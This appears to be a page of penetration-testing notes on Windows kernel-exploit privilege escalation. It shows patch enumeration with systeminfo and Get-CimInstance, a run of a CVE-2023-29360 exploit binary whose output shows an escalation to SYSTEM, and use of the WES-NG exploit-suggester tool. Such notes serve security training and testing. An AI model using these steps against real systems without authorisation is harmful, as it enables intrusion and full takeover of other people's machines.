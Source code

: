 # Kernel

**Kernel exploits** aim to leverage Windows kernel vulnerabilities and typically result in high privileges, but requires advanced knowledge and carries a high risk of crashing the system.

{% tabs %}
{% tab title="1. System Info" %}
```powershell
> systeminfo

Host Name:                 CLIENTWK220
OS Name:                   Microsoft Windows 11 Pro
OS Version:                10.0.22621 N/A Build 22621
...
```
{% endtab %}

{% tab title="2. Hotfixes" %}
{% code overflow="wrap" %}
```powershell
# enumerate security patches
> Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }

Source        Description      HotFixID      InstalledBy         InstalledOn
------        -----------      --------      -----------         -----------
              Security Update  KB5025239                         5/4/2023 12:00:00 AM
              Security Update  KB5025749                         5/4/2023 12:00:00 AM
              Security Update  KB5017233                         9/25/2022 12:00:00 AM
```
{% endcode %}
{% endtab %}

{% tab title="3. Exploit" %}
{% code overflow="wrap" %}
```powershell
> whoami
clientwk220\steve

> .\CVE-2023-29360.exe
[+] Device Description: Microsoft Streaming Service Proxy
Hardware IDs:
        "SW\{96E080C7-143C-11D1-B40F-00A0C9223196}"
[+] Device Instance ID: SW\{96E080C7-143C-11D1-B40F-00A0C9223196}\{3C0D501A-140B-11D1-B40F-00A0C9223196}
[+] First mapped _MDL: 20c2f3c00c0
[+] Second mapped _MDL: 20c2f3d0040
[+] Unprivileged token reference: ffffbc053be6d06d
[+] System token reference: ffffbc052ea7d496
Microsoft Windows [Version 10.0.22621.1555]
(c) Microsoft Corporation. All rights reserved.

>whoami
nt authority\systemower
```
{% endcode %}
{% endtab %}
{% endtabs %}

> _Vulnerabities on Windows OS systems can be found on the_ [_Security Update Guide_](https://msrc.microsoft.com/update-guide/)_, such as_ [_CVE-2023-29360_](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-29360)_, and their corresponding security updates can be shown on the_ [_Microsoft Update Catalog_](https://catalog.update.microsoft.com/Search.aspx?q=KB5027231) _page._

## WES-NG

[Windows Exploit Suggester – Next Generation (WES-NG)](https://github.com/bitsadmin/wesng) is a post-exploitation tool that analyzes Windows system information to identify unpatched vulnerabilities and associated exploits. It supports all Windows OSs from XP through Windows 11, including server editions.&#x20;

```bash
# Clone the repo
git clone https://github.com/bitsadmin/wesng --depth 1

# Update
wes.py --update

# systeminfo > systeminfo.txt on the target host
wes.py systeminfo.txt
```

This tool can generate a lot of false positives: make sure to check [here](https://github.com/bitsadmin/wesng/wiki/Eliminating-false-positives) how to eliminate them. The tool can also validate findings against Microsoft’s Update Catalog using the `--muc-lookup` option to reduce false positives, as the raw MSRC feed can be incomplete.
